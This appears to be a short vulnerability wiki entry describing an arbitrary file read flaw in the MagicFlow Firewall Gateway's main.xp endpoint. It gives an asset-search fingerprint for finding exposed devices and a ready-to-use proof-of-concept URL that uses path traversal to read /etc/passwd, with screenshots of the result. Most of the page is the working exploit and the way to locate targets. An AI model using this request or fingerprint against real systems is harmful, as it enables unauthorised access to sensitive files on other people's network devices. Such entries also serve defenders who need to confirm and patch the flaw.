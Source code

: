 # MagicFlow Firewall Gateway main.xp arbitrary file reading vulnerability

## Vulnerability Description

MagicFlow firewall gateway main.xp has arbitrary file reading vulnerability, and an attacker obtains sensitive files by constructing a specific URL.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">MagicFlow Firewall Gateway</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="MSA/1.0"</span>

## Vulnerability reappears

The login page is as follows



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210609181301702.png)



Construct POC



```plain
/msa/main.xp?Fun=msaDataCenetrDownLoadMore+delflag=1+downLoadFileName=msagroup.txt+downLoadFile=../etc/passwd
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210609182245927.png)